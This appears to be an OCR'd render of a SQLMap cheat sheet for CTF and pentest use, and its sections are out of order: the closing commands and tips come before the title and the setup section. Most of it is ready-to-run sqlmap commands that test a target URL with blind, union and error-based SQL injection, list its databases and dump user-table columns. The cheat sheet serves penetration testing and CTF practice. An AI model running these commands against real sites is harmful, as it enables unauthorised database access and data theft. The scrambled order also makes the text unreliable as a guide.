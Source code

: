     ```bash
    sqlmap -u "$URL" --technique=T --dbs
    ```
*   Union-based injection:

    ```bash
    sqlmap -u "$URL" --technique=U --dbs
    ```
*   Error-based injection:

    ```bash
    sqlmap -u "$URL" --technique=E --dbs
    ```
*   Dump user table:

    ```bash
    sqlmap -u "$URL" -D "$DB" -T "$TABLE" -C "$COLS" --dump
    ```

***

### V. Tips for Success

* Always start by exporting your variables.
* Take time on blind injections.
* Explore different tamper scripts.
* Check SQLMap’s help for advanced options.
* Integrate with Burp Suite or manual testing.
* Practice dynamic command execution for speed.

## The SQLMap Masterclass: Conquer SQL Injection Vulnerabilities

SQLMap automates the detection and exploitation of SQL injection vulnerabilities. This guide shows how to set up your environment variables for dynamic use, then run SQLMap efficiently in your CTF or pentest workflow.

***

### I. Export Environment Variables Setup

Before running SQLMap commands, export all necessary variables in your terminal session to enable dynamic, reusable commands:

```bash
export URL="<https://example.com>"
export DATA="id=1&submit=Submit"
export DBMS="mysql"
export DB="database_name"
export TABLE="table_name"
export COLS="column1,column2"
export PROXY="<http://127.0.0.1:8080>"
export USER_AGENT="My-Custom-Agent"
export COOKIE="SESSION=abcd1234; other=xyz"
export AUTH_CRED="user:password"
export TECHNIQUE="B"  # B=Boolean, T=Time, U=Union, E=Error
```
